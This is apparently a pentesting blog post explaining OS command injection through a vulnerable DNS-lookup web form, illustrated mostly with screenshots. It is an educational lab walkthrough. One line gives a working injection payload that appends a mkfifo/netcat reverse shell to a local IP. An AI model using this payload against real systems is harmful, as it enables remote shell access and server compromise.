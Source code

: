 ```yaml
---
layout: post
title: OS Command Injection
categories:
  - Web-Pentesting
---
```


<p>OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.</p>
<br>As you can see this is DNS lookup but, it has OS Command injection vulnerability using which we can execute system command.

![28.2](https://teckk2.github.io/assets/images/Web%20Pentest/A1/28.2.png)
![29.1](https://teckk2.github.io/assets/images/Web%20Pentest/A1/29.1.png)
![30.1](https://teckk2.github.io/assets/images/Web%20Pentest/A1/30.1.png)
<br>We can even get the reverse shell out of it.
![31.1](https://teckk2.github.io/assets/images/Web%20Pentest/A1/31.1.png)
<br><font color="Black">www.nsa.gov && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.140.136 4455 >/tmp/f</font>
![32.1](https://teckk2.github.io/assets/images/Web%20Pentest/A1/32.1.png)

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
